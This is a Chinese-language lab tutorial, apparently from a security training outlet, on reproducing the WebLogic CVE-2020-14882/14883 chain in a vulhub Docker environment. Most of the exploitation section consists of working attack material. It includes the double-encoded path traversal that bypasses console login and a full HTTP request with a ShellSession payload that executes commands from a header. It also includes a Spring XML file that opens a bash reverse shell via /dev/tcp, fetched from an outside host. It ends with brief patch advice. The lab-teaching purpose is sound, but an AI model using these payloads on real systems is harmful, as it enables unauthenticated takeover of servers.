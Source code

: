 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GfC4dCk_tClASvCGL01qAg)

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif)

亲爱的, 关注我吧

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif)

**12/8**

本文字数 2498

来和我一起阅读吧

本文涉及靶场知识点 -

CVE-2020-14882&14883 weblogic 未授权访问漏洞

https://www.hetianlab.com/expc.do?w=exp_ass&ec=ECIDfdd4-97c8-4e32-89b7-df58dd102e4c&pk_campaign=weixin-wemedia 

简介

  WebLogic 是美国 Oracle 公司的主要产品之一，是商业市场上主要的 J2EE 应用服务器软件，也是世界上第一个成功商业化的 J2EE 应用服务器，在 Java 应用服务器中有非常广泛的部署和应用。

概述

  10 月 21 日，Oracle 官方发布数百个组件的高危漏洞公告。其中组合利用 CVE-2020-14882/CVE-2020-14883 可使未经授权的攻击者绕过 WebLogic 后台登录等限制，最终远程执行代码接管 WebLogic 服务器，利用难度极低，风险极大。

  此处漏洞均存在于 WebLogic 的控制台中。该组件为 WebLogic 全版本自带组件，并且该漏洞通过 HTTP 协议进行利用。

  CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

影响版本

```
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0
```

环境搭建

此处利用 vulhub 的环境进行复现，新建 docker-compose.yml

```
https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md
https://github.com/jas502n/CVE-2020-14882
```

执行以下命令会下载镜像并以此镜像启动一个容器，映射的端口为 7001

```
docker-compose up -d
```

漏洞复现

权限绕过漏洞（CVE-2020-14882）复现：

  因为 CVE-2020-14882 未授权访问漏洞是绕过管理控制台权限访问后台，所以需要存在 console 控制台，打开浏览器访问：

http://ip:port/console

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDKH5I39hg4lbhQBatwkoqI0icfaulpGYOXjahPEyWhEbVTGNe33eeNOA/640?wx_fmt=png)  

  从上一步结果发现是存在管理控制台的，在正常访问 console 后台时会让我们输入账号密码。通过未授权访问，则可以直接绕过验证登录后台，漏洞

URL：/console/css/%252e%252e%252fconsole.portal

未授权访问控制台页面：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDEkYufBeZEcRezBWcFurB3K22evjXWhvxf7LFlZNVayXpfeicvibMOH6A/640?wx_fmt=png)

正常输入账号密码登录控制台页面：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDQU0RbPBktdib7LIlxSd3UBeqsG4qYjbuicBlBQuD0iaSmHPTnC0aHePZA/640?wx_fmt=png)

通过对比可以看到通过未授权访问的后台与正常登陆的后台差异，由于权限不足，缺少部署等功能，无法安装应用，所以也无法通过后台部署 war 包等方式直接获取权限。“%252E%252E%252F” 为二次 url 编码的 “../”，通过这个就可以实现穿越路径未授权访问相关管理后台。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDTNm8ia18Lfcju772OxDfTUibhhqguAE8fN8jMshVMTCM82iaVSQY6FEVA/640?wx_fmt=png)

后台任意命令执行漏洞（CVE-2020-14883）复现:

利用方式一

```
com.tangosol.coherence.mvel2.sh.ShellSession
```

但此利用方法只能在 Weblogic 12.2.1 及以上版本利用，因为 10.3.6 并不存在 com.tangosol.coherence.mvel2.sh.ShellSession 类。

在 12.2.1.3 版本执行 "id" 命令 burpsuite

```
GET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1
Host: 192.168.74.141:7001
Pragma: no-cache
cmd: id
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,en-US;q=0.6
Cookie: ADMINCONSOLESESSION=ufkDQ2w_WXPmMBVQWCpxVBrNdKxp4L58RhydPTssNxYAmgnYP-4Y!-326883263; ADMINCONSOLESESSION=lGPJf1JPnXR7pG1qZzw0xXmwGtMQcPpJ0GVJrg0pv0LGCS6LdH0g!1599365627
Connection: close
```

回显 payload：

```
/console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();
```

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDbY0oo18Ahfrh2TNxl1TA9e8TlJaQLIo01oDiazlicQMiamPRTftkSTa1Q/640?wx_fmt=png)

在 10.3.6 版本执行会报错

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDR35exKojgcZLyFiapxE35ichBIJ0ZdWBKMCBPBfEYMd4eXK2xMD3KqXg/640?wx_fmt=png)

利用方式二

```
com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext
```

这是一种更为通杀的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，这里是执行一个反弹 shell 的操作，如

http://example.com/rce.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/ip/1234 0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

nc 监听，然后执行一个 get 请求：  

```
http://192.168.74.141:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://139.9.198.30/rce.xml")
```

nc 监听的端口得到反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8kuUs1fNSE9kCQ8kGebiaDfTia2xBYHUV1Zha93su5ZiarUvtU3ZdfEl6n7LyxoazJecJ9j5zoXxdA/640?wx_fmt=png)

经过测试，该方法在 12.2.1.3 以及 10.3.6 版本都可以执行

**漏洞修复**

目前 Oracle 官方已发布了最新针对该漏洞的补丁，请受影响用户及时下载补丁程序并安装更新。Oracle 官方补丁需要用户持有正版软件的许可账号，使用该账号登陆 https://support.oracle.com 后，可以下载最新补丁。

**参考链接**

```
https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md
https://github.com/jas502n/CVE-2020-14882
```

**12/8**

欢迎投稿至邮箱：**EDU@antvsion.com**  

了解稿件投递相关

请点击公众号菜单：【来撩我吧】- 原创征集

有才能的你快来投稿吧！

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDH643dgKUQ7JK7bkJibUEk8bImjXrQgvtr4MZpMnfVuw7aT2KRkdFJrw/640?wx_fmt=gif)

快戳 “阅读原文” 做学习人
